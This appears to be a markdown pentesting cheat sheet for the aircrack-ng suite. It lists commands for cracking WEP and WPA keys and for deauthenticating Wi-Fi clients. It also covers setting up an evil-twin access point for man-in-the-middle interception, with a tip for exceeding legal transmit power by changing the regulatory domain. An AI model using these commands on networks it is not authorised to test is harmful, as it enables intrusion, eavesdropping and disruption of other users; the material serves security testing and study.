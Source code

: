 # Aircrack-ng

TODO: Fill this information of covering aircrack-ng suite tools usage

## Help Menu

## Usage

```
# ip link set <interface> down
```

```
# ip link set <interface> up
```

### WEP

WiFi in Monitor mode

```
# airmon-ng start wlan0
```

Search for wireless

```
# airodump-ng mon0
```

Capture or inject

```
# airodump-ng --bssid <bssid> -c <#> -w WEPcrack mon0
```

Inject ARP to capture IVs

```
# aireplay-ng -e -b <bssid> -h <mac> mon0
```

Crack (needs several thousand IVs)

```
# aircrack-ng WEPcrack.cap
```

### WPA

Start airmon-ng

```
# airmon-ng start wlan0
```

Run airodump

```
# airodump-ng -i mon0
```

Find the network you want to access then wait for `WPA handshake: ##:##:##:##:##:##`

```
# airodump-ng --bssid <bssid> -c 11 -w cowpatty mon0
```

Kick someone else off

```
# aireplay-ng --deauth 100 -a <bssid> mon0
```

Dictionary or other, crack the password

```
# aircrack-ng WPAcrack.cap -w <wordlist>
```

Pipe STDIN to aircrack-ng for password cracking

```
$ crunch <min-len> <max-len> -t <placeholder_characters> | aircrack-ng -w - file.cap -e <ESSID>
```

### Evil Twin

Our first task will be to creating an evil twin access point. Many new hackers are anxious to crack Wi-Fi passwords to gain some free bandwidth (don't worry, we'll get to that), but there are so many other Wi-Fi hacks that are far more powerful and put so much more at risk than a bit of bandwidth.

What's an Evil Twin AP?
The evil twin AP is an access point that looks and acts just like a legitimate AP (using the same SSID) and entices the end-user to connect to our access point. Our aircrack-ng suite has a tool, airbase-ng, that can be used to convert our wireless adapter into an access point. This is a powerful client-side hack that will enable us to see all of the traffic from the client and conduct a man-in-the middle attack.

Many corporate offices, hotels, coffee shops, etc. employ this type of security.

Start airmon

```
iwconfig
airmon-ng start wlan0
```

Start airdump then wait for ssid to show 

```
airodump-ng mon0
```

Create new AP with same ssid and mac

```
airbase-ng -a <bssid> --essid <ssid> -c <channel> mon0
```

Deauth your target

```
aireplay-ng --deauth 0 -a <bssid>
```

Run your AP at max power (27 is max 'legal' power)

```
iwconfig wlan0 txpower 27 
```

Bypass restrictions is by setting to another domain/country then wait for connection

```
iw reg set BO

iwconfig wlan0 txpower 30
```

---
## References

- [[Crunch|Crunch]]

- [Hacktricks: Pentesting Wi-Fi](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi)